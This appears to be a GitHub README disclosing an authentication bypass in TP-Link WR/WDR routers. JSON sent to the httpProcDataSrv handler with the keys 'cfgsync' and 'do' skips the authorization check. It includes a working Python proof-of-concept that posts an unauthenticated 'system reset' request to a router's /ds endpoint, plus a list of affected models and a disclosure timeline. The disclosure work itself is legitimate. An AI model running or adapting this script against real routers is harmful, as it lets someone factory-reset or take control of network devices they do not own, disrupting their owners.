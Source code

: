 # TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.

![](1.png)

![image-20210728095522755](2.png)

### Poc
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```
### Timeline
2021.7.27 report to CVE and TP-Link

### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.
